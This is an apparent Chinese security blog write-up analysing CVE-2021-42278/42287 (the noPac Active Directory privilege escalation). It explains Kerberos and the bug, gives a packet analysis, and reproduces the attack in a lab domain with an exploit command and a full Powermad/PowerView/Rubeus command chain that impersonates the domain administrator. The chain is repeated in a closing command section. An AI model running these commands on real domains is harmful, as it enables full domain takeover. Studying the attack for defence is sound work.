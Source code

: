 ```yaml
---
title: "CVE-2021-42287_域提权漏洞分析"
date: 2023-02-15T19:18:00+08:00
description: CVE-2021-42287_域提权漏洞分析
draft: true
image: https://typora-mine.oss-cn-beijing.aliyuncs.com/typora/image-20220118141506204.png
categories:
    - 漏洞复现
    - CVE
---
```






#CVE-2021-42287

## 0x01 Kerberos认证过程

~~~shell
1.用户向KDC发起AS_REQ,请求凭据是用户hash加密的时间戳，KDC使用用户hash进行解密，如果结果正确返回用krbtgt hash加密的TGT票据
2.用户凭借TGT票据向KDC发起针对特定服务的TGS_REQ请求，KDC使用krbtgt hash进行解密，如果结果正确，就返回用服务hash 加密的TGS票据
3.用户拿着TGS票据去请求服务，服务使用自己的hash解密TGS票据。如果解密正确，就允许用户访问。

上述流程中解决了是谁发起请求的问题，却没有解决有没有权限的问题，于是引入了pac的概念，在第一步中返回的TGT带有pac信息，pac包含用户sid、所在组等，后续通过pac对用户进行判断有没有权限访问该服务。
~~~



## 0x02 分析

简单描述一下逻辑，在普通域机器中，使用s4u2self代替administrator向域控dc申请访问cifs服务的st票据，但是根据申请中的pac来看，当前机器账户是没有权限的，所以TGS必须重新生成PAC结构，才能构成一个合法的高权限的ST。

### CVE-2021-42278

Windows域内机器账户以 **$** 结尾（也就是常见隐藏账户），但是DC没有对创建的机器账户名称做检查，也就是说就算在有一个域控机器名为 **DC$** 的情况下，依旧可以请求让AS签发一个机器名为DC的、不以\$结尾的TGT。 (其实修改的是SamAccountName属性)

关于SamAccountName属性：

> SAM-Account-Name 用于支持运行早期版本操作系统的客户端和服务器的登录名，例如 Windows NT 4.0、Windows 95、Windows 98 和 LAN Manager。实际上是以「Domain\LogonName 」形式命名。

### CVE-2021-42287

结合上述漏洞，当使用由CVE-2021-42278获取到的TGT并通过S4U2self以域管身份请求域控服务的ST时，**请求ST的账户并没有被KDC找到，KDC会自动在尾部添加$并再次寻找**，也就是在TGT中的请求账户为DC，但是KDC寻找SamAccountName属性并没有找到该机器账户，于是自动在账户后面添加 **$** 再次寻找，寻找的账户名就变成了`DC$`，再次寻找也就找到了域控，并以域控的密钥加密了ST返回，至此获取了一个`高权限的ST`。



## 0x03 复现过程

域：doge.com

域控：ad.doge.com 

域管：administrator

普通域用户：test

### 1. 工具复现

Exp: https://github.com/WazeHell/sam-the-admin.git

Payload: `python3 sam_the_admin.py "doge.com/test:Hello123\!" -dc-ip 192.168.197.138  -shell` 

![image-20220118141506204](https://typora-mine.oss-cn-beijing.aliyuncs.com/typora/image-20220118141506204.png)

### 2. 手动复现

用到Powerspolit和Rubeus

1. 创建机器用户work

   ~~~shell
   Set-ExecutionPolicy Bypass -Scope Process
   Import-Module .\Powermad.ps1
   New-MachineAccount -MachineAccount work -Domain doge.com  -Verbose
   ~~~

   ![image-20220120095108327](https://typora-mine.oss-cn-beijing.aliyuncs.com/typora/image-20220120095108327.png)

2. 清除SPN

~~~shell
#清除spn，如果不清除，修改samAccountName的时候会尝试修改域控的SPN，导致失败
setspn -T doge.com -Q */*
Import-Module .\PowerView.ps1
Set-DomainObject "CN=work,CN=Computers,DC=doge,DC=com" -Clear 'serviceprincipalname' -Verbose
~~~

![image-20220120104743755](https://typora-mine.oss-cn-beijing.aliyuncs.com/typora/image-20220120104743755.png)

3. 重设机器名为域控名

   ```bash
   Set-MachineAccountAttribute -MachineAccount work -Value "ad" -Attribute samaccountname -Verbose
   ```



4. 获取TGT

   ~~~shell
   ./Rubeus.exe asktgt /user:ad /password:Test123 /domian:doge.com /dc:ad.doge.com /nowrap
   ~~~

   ![image-20220120111003789](https://typora-mine.oss-cn-beijing.aliyuncs.com/typora/image-20220120111003789.png)

5. 将机器用户名重置为原来的用户名

   ~~~shell
   Set-MachineAccountAttribute -MachineAccount work -Value "work" -Attribute samaccountname -Verbose
   ~~~

6. 通过S4U2Self获取ST

   ~~~shell
   ./Rubeus.exe s4u /self /impersonateuser:"administrator" /altservice:"cifs/ad.doge.com" /dc:"ad.doge.com" /ptt /ticket:[Base64 TGT]
   ~~~
   



## 0x04 流量分析

第四步中，获取TGT，对应的是AS_REQ和AS_REP阶段，

![image-20220121093151837](https://typora-mine.oss-cn-beijing.aliyuncs.com/typora/image-20220121093151837.png)

首先查看AS_REQ的字段结构，其中

~~~shell
PVNO：表示的是Kerberos协议的版本，这里代表使用Kerberos V5
msg-type：消息类型
padata：Pre-authentication Data，预身份认证。
PA-DATA PA-ENC-TIMESTAMP：使用用户hash加密的时间戳。
PA-DATA PA-PAC-REQUEST：用于验证用户是否有权限访问某服务，这里为开启状态（include-pac: True）
~~~

![image-20220121093940163](https://typora-mine.oss-cn-beijing.aliyuncs.com/typora/image-20220121093940163.png)

接着查看req-body，其中CNameString是修改后的ad

~~~shell
kdc-options：请求生成票据的标志位
cname：进行身份验证的账户名，这里是我们修改后的,为DC
sname：被请求服务的名字
etype：加密类型
~~~



![image-20220121094324283](https://typora-mine.oss-cn-beijing.aliyuncs.com/typora/image-20220121094324283.png)

之后是AS_REP，此时已经获得了一个TGT，至此流程还是正常的。

![image-20220121101431060](https://typora-mine.oss-cn-beijing.aliyuncs.com/typora/image-20220121101431060.png)



接下来是TGS_REQ阶段，查看tgs-req数据包中的padata，其分为两个结构，一个是PA-TGS-REQ，另一个是PA-FOR-USER。

PA-TGS-REQ用于下一步认证使用的会话密钥，通过`session-key`作为密钥加密时间戳，用户名等信息。

在`S4U2Self`协议扩展中，Service代表用户请求一个`TGS Ticket`，KDC通过用户名和域名来识别用户，或者还有一种方式是通过证书来识别用户，如果通过用户名和域名来识别用户的话，Service会使用自己的TGT并添加一个新的padata，就是`PA-FOR-USER`结构，由于使用S4U2Self请求cifs服务，所以这里也存在`PA-FOR-USER`结构

![image-20220121105241414](https://typora-mine.oss-cn-beijing.aliyuncs.com/typora/image-20220121105241414.png)

可以查看`PA-FOR-USER`的结构，是代`Administrator`的身份请求到cifs服务

![image-20220121105643439](https://typora-mine.oss-cn-beijing.aliyuncs.com/typora/image-20220121105643439.png)

这里传递的TGT是修改后的机器账户名`ad`，申请tgt后该机器账户消失，TGS找不到账户，所以自动使用ad$的身份去创建服务票据。

最后查看TGS_REP中的pac部分，发现UserRID是500，也就是与administrator对应的值，至此获取了一个`高权限的ST`。

![PAC_LOGON_INFO](https://typora-mine.oss-cn-beijing.aliyuncs.com/typora/4416f63d-7cb0-460a-a544-ab2cf2cfab20.png)



## 0x05 Commond

~~~shell
Set-ExecutionPolicy Bypass -Scope Process
Import-Module .\Powermad.ps1
New-MachineAccount -MachineAccount work -Domain doge.com  -Verbose


setspn -T doge.com -Q */*
Import-Module .\PowerView.ps1
Set-DomainObject "CN=work,CN=Computers,DC=doge,DC=com" -Clear 'serviceprincipalname' -Verbose
Set-MachineAccountAttribute -MachineAccount work -Value "ad" -Attribute samaccountname -Verbose
./Rubeus.exe asktgt /user:ad /password:Test123 /domian:doge.com /dc:ad.doge.com /nowrap
Set-MachineAccountAttribute -MachineAccount work -Value "work" -Attribute samaccountname -Verbose
./Rubeus.exe s4u /self /impersonateuser:"administrator" /altservice:"cifs/ad.doge.com" /dc:"ad.doge.com" /ptt /ticket:
# 创建机器账户work
Set-ExecutionPolicy Bypass -Scope Process
Import-Module .\Powermad.ps1
New-MachineAccount -MachineAccount work -Domain doge.com  -Verbose
#清除spn，如果不清除，修改samAccountName的时候会尝试修改域控的SPN，导致失败
setspn -T doge.com -Q */*
Import-Module .\PowerView.ps1
Set-DomainObject "CN=work,CN=Computers,DC=doge,DC=com" -Clear 'serviceprincipalname' -Verbose
#将机器用户名修改为域控机器名，不带$
Set-MachineAccountAttribute -MachineAccount work -Value "ad" -Attribute samaccountname -Verbose
#申请tgt
./Rubeus.exe asktgt /user:ad /password:Test123 /domian:doge.com /dc:ad.doge.com /nowrap
#将机器用户名重置为原来的用户名
Set-MachineAccountAttribute -MachineAccount work -Value "work" -Attribute samaccountname -Verbose
#通过S4U2Self获取st
./Rubeus.exe s4u /self /impersonateuser:"administrator" /altservice:"cifs/ad.doge.com" /dc:"ad.doge.com" /ptt /ticket:[Base64 TGT]
~~~





